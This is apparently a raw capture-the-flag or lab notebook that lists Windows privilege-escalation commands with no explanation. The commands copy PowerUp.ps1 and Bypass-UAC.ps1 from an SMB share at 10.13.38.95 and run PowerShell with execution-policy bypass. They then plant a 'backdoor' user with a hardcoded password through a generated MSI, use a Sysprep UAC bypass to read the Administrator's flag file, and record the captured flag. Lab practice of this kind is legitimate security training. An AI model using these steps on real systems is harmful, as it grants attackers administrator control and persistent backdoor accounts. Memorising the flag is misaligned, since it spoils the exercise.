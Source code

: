 \\10.13.38.95\share

cd c:\Users\pmorgan\Desktop

powershell -ep bypass

xcopy \\10.13.38.95\share\Bypass-UAC.ps1 .
xcopy \\10.13.38.95\share\PowerUp.ps1 .

Import-Module .\PowerUp.ps1
Write-UserAddMSI
.\UserAdd.msi

backdoor:T3st@123

runas /user:backdoor cmd
T3st@123

c:\Windows\System32> type  C:\Users\Administrator\Desktop\flag.txt
Access is denied

powershell -ep bypass

cd c:\Users\Public

xcopy \\10.13.38.95\share\Bypass-UAC.ps1 .

Import-Module .\Bypass-UAC.ps1
Bypass-UAC -Method UacMethodSysprep

type  C:\Users\Administrator\Desktop\flag.txt > c:\Users\pmorgan\Desktop\flag_adm.txt

\\127.0.0.1\c$\Users\pmorgan\Desktop\

c1tr!x_3sc@p3_@dm!n